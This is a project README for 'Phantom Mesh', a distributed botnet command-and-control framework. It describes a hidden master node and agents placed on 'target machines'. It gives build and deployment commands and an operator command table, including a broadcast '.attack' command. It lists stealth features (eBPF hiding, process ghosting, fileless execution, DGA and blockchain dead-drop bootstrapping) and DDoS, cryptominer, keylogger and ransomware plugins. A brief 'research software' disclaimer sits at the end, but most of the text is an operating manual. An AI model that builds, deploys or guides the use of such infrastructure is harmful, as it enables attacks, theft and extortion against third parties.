

# Phantom Mesh

> A distributed, resilient command-and-control framework with multi-platform support.

---

## Table of Contents

- [Overview](#overview)
- [Architecture](#architecture)
- [Features](#features)
- [Quick Start](#quick-start)
- [Operational Guide](#operational-guide)
- [Network Configuration](#network-configuration)
- [Project Structure](#project-structure)

---

## Overview

Phantom Mesh is a **two-tier distributed C2 framework** designed for resilience and stealth:

| Layer | Component | Purpose |
|-------|-----------|---------|
| **Control Plane** | Cloud Nodes (Zig) + Phantom (Rust) | P2P mesh, command signing, verification |
| **Execution Plane** | Edge Nodes (Rust) | Target agents, LAN clustering, task execution |

The **Phantom** node is the hidden master—indistinguishable from Cloud nodes in network traffic, but holds the private signing key.

---

## Architecture



```
                    ┌─────────────────────────────────────┐
                    │          CONTROL PLANE              │
                    │      Cloud P2P Mesh (UDP 31337)     │
                    │                                     │
                    │   Cloud ◄──► Cloud ◄──► PHANTOM     │
                    │                           │         │
                    │                      SSH (12961)    │
                    │                           ▼         │
                    │                      [Operator]     │
                    └───────────────┬─────────────────────┘
                                    │ MQTT (1883)
                    ┌───────────────▼─────────────────────┐
                    │         EXECUTION PLANE             │
                    │       LAN Cluster (Edge Nodes)      │
                    │                                     │
                    │   Worker ◄──► LEADER ◄──► Worker    │
                    │              (TCP 31339)            │
                    └─────────────────────────────────────┘
```

See [docs/architecture.md](docs/architecture.md) for detailed technical design.

---

## Features

| Category | Features |
|----------|----------|
| **Network** | P2P gossip mesh, LAN clustering, multi-cloud failover |
| **Security** | Ed25519 signed commands, rotating magic numbers, signature-only master |
| **Bootstrap** | 5-tier fallback: Cache → DNS-over-HTTPS → Reddit → DGA → Ethereum |
| **Stealth** | eBPF hiding (Linux), process ghosting (Windows), fileless execution |
| **Plugins** | DDoS, cryptominer, keylogger, ransomware (modular) |

---

## Quick Start

### Prerequisites

- **Rust** 1.70+ (for Phantom and Edge)
- **Zig** 0.11+ (for Cloud nodes)
- **OpenSSL** (for key generation)

### 1. Build All Components

```bash
# Clone repository
git clone <repo-url> phantom-mesh
cd phantom-mesh

# Build Cloud node (Zig)
make cloud_linux_x64

# Build Phantom C2 (Rust)
cargo build -p phantom --release

# Build Edge agent (Rust)
cargo build -p edge --release
```

### 2. Generate Master Keys

```bash
mkdir -p keys
openssl genpkey -algorithm ED25519 -out keys/phantom.pem
# Or use simple random key:
openssl rand 32 > keys/phantom_c2.key
```

### 3. Deploy Cloud Nodes

```bash
# On each VPS/server:
./dist/cloud_linux_x64 --port 31337
```

Recommended: Deploy 3-5 Cloud nodes for mesh redundancy.

### 4. Start Phantom C2

```bash
./target/release/phantom --key keys/ --port 12961
```

### 5. Connect as Operator

```bash
ssh admin@<phantom-ip> -p 12961
# Password: (none required with key auth)
```

---

## Operational Guide

### C2 Shell Commands

| Command | Description | Example |
|---------|-------------|---------|
| `help` | List all commands | `help` |
| `clear` | Clear terminal | `clear` |
| `.peers` | Show direct P2P neighbors | `.peers` |
| `.count` | Count total mesh nodes | `.count` |
| `.attack <ip> <port> <duration>` | Broadcast attack command | `.attack 1.2.3.4 80 60` |
| `.onchain <ip:port,...>` | Publish C2 addresses to blockchain | `.onchain 1.2.3.4:1883` |

### Edge Deployment

Deploy Edge nodes on target machines. They will:

1. **Bootstrap**: Discover Cloud nodes via 5-tier fallback
2. **Elect Leader**: LAN nodes vote for strongest leader (UDP broadcast)
3. **Connect**: Leader connects to Cloud via MQTT; Workers connect to Leader
4. **Execute**: Receive and execute plugin commands

```bash
# On target machine:
./target/release/edge
```

Edge nodes are fully autonomous—no configuration required.

### Monitoring

Check Phantom logs for mesh status:

```bash
tail -f /var/log/phantom.log
```

Key log patterns:
- `bootstrap: X nodes` — Discovered X Cloud nodes
- `role: leader` — Edge became LAN leader
- `peers: X` — Connected to X P2P neighbors

---

## Network Configuration

### Firewall Rules

| Direction | Port | Protocol | Purpose |
|-----------|------|----------|---------|
| **Inbound** | 31337 | UDP | Cloud P2P mesh |
| **Inbound** | 12961 | TCP | Phantom SSH (operator only) |
| **Inbound** | 1883 | TCP | Cloud MQTT (Edge connections) |
| **LAN Only** | 31338 | UDP | Edge leader election |
| **LAN Only** | 31339 | TCP | Edge worker-leader bridge |

### Recommended Topology

```
Internet
    │
    ├── Cloud A (VPS 1) ───┐
    ├── Cloud B (VPS 2) ───┼──► P2P Mesh ◄── Phantom C2
    └── Cloud C (VPS 3) ───┘         │
                                     │ MQTT
                        ┌────────────┴────────────┐
                        │        LAN 1            │
                        │   Leader ◄─► Workers    │
                        └─────────────────────────┘
```

---

## Project Structure

```
phantom-mesh/
├── crates/
│   ├── nodes/
│   │   ├── cloud/          # Mesh relay node (Zig)
│   │   ├── phantom/        # C2 master node (Rust)
│   │   │   ├── src/
│   │   │   │   ├── main.rs         # Entry point
│   │   │   │   ├── network/        # P2P service
│   │   │   │   └── ssh/            # Operator shell
│   │   │   └── Cargo.toml
│   │   └── edge/           # Target agent (Rust)
│   │       ├── src/
│   │       │   ├── main.rs         # Entry point
│   │       │   ├── core/           # Leader/Worker runtime
│   │       │   ├── discovery/      # Election + Zero-Noise
│   │       │   ├── network/        # Cloud connection, Bridge
│   │       │   └── plugins/        # Plugin loader
│   │       └── Cargo.toml
│   ├── plugins/            # Dynamic plugins
│   │   ├── ddos/           # DDoS module (disabled)
│   │   ├── cryptojacking/
│   │   └── keylogger/
│   └── shared/
│       ├── protocol/       # Wire protocol definitions
│       └── plugin_api/     # Plugin FFI interface
├── smart_contracts/        # Ethereum Sepolia dead-drop
├── docs/
│   ├── architecture.md     # Detailed technical design
│   └── architecture.png    # Network diagram
├── Makefile                # Build targets
└── Cargo.toml              # Workspace root
```

---

## Security Considerations

> [!WARNING]
> This is research software. Deploying without authorization is illegal.

- **Key Protection**: Guard `keys/` directory. Compromise = full mesh control.
- **Network Isolation**: Phantom should not be directly internet-exposed. Use VPN.
- **Log Sanitization**: Production deployments should disable debug logging.

---

## License

Proprietary. Unauthorized distribution prohibited.
